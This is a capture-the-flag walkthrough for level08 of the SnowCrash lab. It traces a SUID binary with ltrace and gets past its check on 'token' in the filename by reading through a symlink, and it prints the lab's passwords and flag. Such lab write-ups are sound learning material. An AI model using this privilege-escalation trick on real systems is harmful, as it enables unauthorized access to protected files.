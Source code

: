 Login as `level08`.
```shell
┌──$ [~/42/2021/snow-crash]
└─>  ssh 192.168.1.64 -p 4242 -l level08
level08@192.168.1.64's password: fiumuikeil55xe9cu4dood66h
```
An `SUID` executable and token file are located in home directory.
```shell
level08@SnowCrash:~$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
level08@SnowCrash:~$ ./level08
./level08 [file to read]
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
level08@SnowCrash:~$ cat token
cat: token: Permission denied
```
Seems that token file cannot be read neither by `./level08` not `cat`.

Use `ltrace` to intercept dynamic library calls and system calls executed by the program.
```gdb
level08@SnowCrash:~$ ltrac ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token") = "token"
printf("You may not access '%s'\n", "token"You may not access 'token') = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
```
`strstr` function locate a substring `needle` in the string `haystack`.

It can be deduced that if passed file has token string in name, it exits.

Make a symbolic link without token in a filename.
```shell
level08@SnowCrash:~$ ln -s $(realpath token) /tmp/symlink
```
Execute binary with symlink and get password to log into `flag08`.
```shell
level08@SnowCrash:~$ ./level08 /tmp/symlink
quif5eloekouj29ke0vouxean
```
Login as `flag08` and get the flag.
```shell
level08@SnowCrash:~$ su flag08
Password: quif5eloekouj29ke0vouxean
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
